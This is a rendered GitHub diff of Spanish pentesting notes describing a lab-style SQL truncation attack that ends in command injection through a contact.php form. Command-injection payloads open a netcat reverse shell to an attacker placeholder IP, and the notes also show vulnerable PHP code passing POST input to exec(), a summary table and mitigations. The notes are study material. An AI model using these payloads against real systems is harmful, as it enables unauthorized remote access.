

Before and after one commit to n1krov/red_vault, a Markdown page: apuntes/OWASP/Ataque de Truncado SQL (SQL Truncation).md, 3 parts joined by grey strips. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/apuntes/OWASP/Ataque de Truncado SQL (SQL Truncation).md
+++ b/apuntes/OWASP/Ataque de Truncado SQL (SQL Truncation).md
@@ -57,11 +98,18 @@ dando como resultado `admin@tornado`, entonces si tu haces eso lograste cambiar
 
-ademas dentro del panel de admin hay una pestaña de contact que te lleva a un contact.php que aparentemente esta utilizando un `exec()` o algo por el estilo
-donde se pueden ejecutar comandos de linux. pero el output no te deja ver desde la pagina asi que por mi maquina de atacante me pongo en escucha con netcat
+## 🛠️ Acceso al panel admin
+
+Desde el panel admin, encontramos una sección **"Contact"**, que apunta a `contact.php`. Aparentemente, permite ejecutar comandos con `exec()` en PHP.
+
+---
+
+### 🎧 Reverse Shell (sin visibilidad)
+
+La ejecución no retorna salida en el frontend, pero podemos usar **Netcat** para capturarla desde nuestra máquina atacante:
 
 ```sh
 nc -nlvp 443
 ```
 
-y del lado de la victima puedo lanzarle un whoami y redireccionar la salida a la ip atacante por ese puerto
+Y en el campo del `POST` coment de `contact.php`, enviamos:
 
 ```sh
@@ -69,6 +117,11 @@ test; whoami | nc <ip> <port>
 ```
 
-y definitivamente puedo ver ese output que es `www-data`
+✅ Vemos que el output es `www-data`.
 
-por lo que al final si hacemos
+---
+
+### 🐚 Shell interactiva
+
+Ahora podemos obtener acceso a shell directamente:
+
 ```sh
@@ -76,19 +129,54 @@ test; nc -e /bin/bash <ip> <port>
 ```
 
-si quieres tratar la TTY haciendo
+Y si necesitamos un entorno TTY usable:
 
 ```sh
 script /dev/null -c bash
 ```
 
-y ya explotaste una SQL Truncation
+---
 
-
-
-como extra si cateamos el contact.php vemos un
+## 📄 Código vulnerable (`contact.php`)
 
 ```php
-$cmd=$_POST['comment'];
+$cmd = $_POST['comment'];
 echo $cmd;
 exec($cmd);
 ```
+
+> ❗ ¡Claramente vulnerable a ejecución remota de comandos!
+
+---
+
+## 🧷 Resumen
+
+| Paso                      | Descripción                    |
+| ------------------------- | ------------------------------ |
+| Descubrimiento de IP      | Escaneo ARP                    |
+| Fuzzing de rutas          | Gobuster                       |
+| Detectar límite en signup | Longitud de input = 13         |
+| Truncado de correo        | Se sobrescribe `admin@tornado` |
+| Reverse shell             | `exec()` + Netcat              |
+
+---
+
+## 🚨 Mitigaciones recomendadas
+
+- Validar longitudes de campos **tanto del lado cliente como servidor**.
+
+- No truncar silenciosamente: **rechazar entradas largas** explícitamente.
+
+- En bases de datos, asegurar unicidad y uso de `BINARY` si aplica (MySQL).
+
+- Nunca ejecutar directamente entradas del usuario (`exec()` sin sanitizar).
+
+
+---
+
+## 🧷 Tags
+
+#sqltruncation #ciberseguridad #vulnerabilidades #web #php #netcat #reverse_shell #fuzzing #apache #exploit
+
+[[OWASP]]
+[[gobuster]]
+[[netcat]]
````
Also changed, not shown: other parts of apuntes/OWASP/Ataque de Truncado SQL (SQL Truncation).md (+66 -25 lines).
